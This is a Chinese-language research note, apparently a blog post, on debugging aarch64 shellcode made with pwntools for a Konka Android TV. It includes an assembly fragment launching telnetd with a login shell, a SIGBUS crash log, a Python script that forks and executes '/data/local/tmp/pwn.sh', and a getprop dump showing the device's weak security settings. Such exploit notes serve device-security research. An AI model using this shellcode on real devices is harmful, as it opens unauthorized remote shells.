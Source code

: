 问题代码：

```
    /* push pointers onto the stack */
    mov  x14, #19
    add x14, sp, x14
    str x14, [sp, #-8]! /* b'telnetd\x00' */  here
    mov  x14, #24
    add x14, sp, x14
    str x14, [sp, #-8]! /* b'/system/bin/sh\x00' */
    mov  x14, #24
    add x14, sp, x14
    str x14, [sp, #-8]! /* b'-l\x00' */
```

```
7fd4b09000-7fd4b2a000 rw-p 00000000 00:00 0                              [stack]

D:child stopped by sig: 7 Bus error
D:fault addr: 0x7fd4b27dc0

I:sp=0x7fd4b27da8
I:pc=0x7409439070
```

SIGBUS 应该不是栈溢出，查了一下是 arm64 stp, ldp 指令要求 sp 16 位对齐

[How do I parse ARM64 assembly SIGBUS error? - Stack Overflow](https://stackoverflow.com/questions/72724797/how-do-i-parse-arm64-assembly-sigbus-error)

pushstr_array 导致的，看起来是 pwntools 的问题，但是 pwntools 又说修了。

[aarch64.linux.pushstr_array is broken · Issue #1549 · Gallopsled/pwntools](https://github.com/Gallopsled/pwntools/issues/1549)

最后干脆 execve 一个跳板程序（这里就执行一个 sh `/data/local/tmp/pwn.sh`），不需要 arg ，总算不会 SIGBUS 了。

```py
from pwn import *
import struct

if __name__ == '__main__':
    context(arch='aarch64', os='linux')
    code = pwnlib.shellcraft.aarch64.linux.syscall('SYS_clone', pwnlib.constants.eval('SIGCHLD'), 0, 0, 0, 0)
    code += 'cmp w0, #0x0\n'
    code += 'b.gt aaa\n'
    code += pwnlib.shellcraft.aarch64.pushstr("/data/local/tmp/pwn.sh")
    code += pwnlib.shellcraft.aarch64.linux.syscall('SYS_execve', 'sp', 0, 0)
    code += 'aaa:\n'
    code += pwnlib.shellcraft.aarch64.breakpoint()
    print(code)
    c = asm(code)
    print(list(c))
```


[net.bt.name]: [Android]
[net.hostname]: [android-484acfb7c4189abb]
[persist.sys.profiler_ms]: [0]
[ro.HiDPTAndroid.version]: [HiDPTAndroidV300R002C01SPC050_20170710]
[ro.adb.secure]: [0]
[ro.allow.mock.location]: [1]
[ro.baseband]: [unknown]
[ro.board.platform]: [bigfish]
[ro.boot.selinux]: [enforcing]
[ro.bootloader]: [unknown]
[ro.bootmode]: [unknown]
[ro.bootvideo.vol.support]: [1]
[ro.build.board.select]: [0]
[ro.build.characteristics]: [tv]
[ro.build.date.utc]: [1586333036]
[ro.build.date]: [Wed Apr  8 16:03:56 CST 2020]
[ro.build.description]: [KKHi3751V551E_64bit_DMO_2layer-user 5.1.1 LMY49J eng.KK.20200408.160235 release-keys]
[ro.build.display.id]: [LMY49J release-keys]
[ro.build.flavor]: [KKHi3751V551E_64bit_DMO_2layer-user]
[ro.build.host]: [ubuntu]
[ro.build.id]: [LMY49J]
[ro.build.product]: [KKHi3751V551E]
[ro.build.tags]: [release-keys]
[ro.build.type]: [user]
[ro.build.user]: [wangkang]
[ro.build.version.all_codenames]: [REL]
[ro.build.version.base_os]: []
[ro.build.version.codename]: [REL]
[ro.build.version.incremental]: [eng.KK.20200408.160235]
[ro.build.version.release]: [5.1.1]
[ro.build.version.sdk]: [22]
[ro.build.version.security_patch]: [2017-06-01]
[ro.carrier]: [unknown]
[ro.com.android.dateformat]: [MM-dd-yyyy]
[ro.com.widevine.cachesize]: [16777216]
[ro.config.2k_galleryl]: [false]
[ro.config.alarm_alert]: [Alarm_Classic.ogg]
[ro.config.layer_buffers_num]: [3]
[ro.config.max_starting_bg]: [20]
[ro.config.media_vol_steps]: [100]
[ro.config.netflix.surround]: [nrdp_external_surround_sound_enabled]
[ro.config.notification_sound]: [pixiedust.ogg]
[ro.config.ringtone]: [Ring_Synth_04.ogg]
[ro.crypto.state]: [unencrypted]
[ro.dalvik.vm.native.bridge]: [0]
[ro.debuggable]: [1]
[ro.drm.tvp]: [false]
[ro.factorytest]: [0]
[ro.hardware]: [hi3751]
[ro.hwcursor.fb]: [/dev/graphics/fb3]
[ro.kernel.android.checkjni]: [false]
[ro.konka.bootvideo.version]: [1.0]
[ro.opengles.version]: [131072]
[ro.ott.enable]: [true]
[ro.product.board]: [bigfish]
[ro.product.brand]: [HiDPT]
[ro.product.cpu.abi]: [arm64-v8a]
[ro.product.cpu.abilist32]: [armeabi-v7a,armeabi]
[ro.product.cpu.abilist64]: [arm64-v8a]
[ro.product.cpu.abilist]: [arm64-v8a,armeabi-v7a,armeabi]
[ro.product.device]: [KKHi3751V551E]
[ro.product.locale.language]: [zh]
[ro.product.locale.region]: [CN]
[ro.product.manufacturer]: [KONKA]
[ro.product.model]: [Konka Android TV 551]
[ro.product.name]: [KKHi3751V551E_64bit_DMO_2layer]
[ro.radio.noril]: [true]
[ro.revision]: [0]
[ro.runtime.firstboot]: [1674394460340]
[ro.secure]: [0]
[ro.serialno]: []
[ro.sf.lcd_density]: [240]
[ro.tailor.level]: [L2]
[ro.tether.denied]: [false]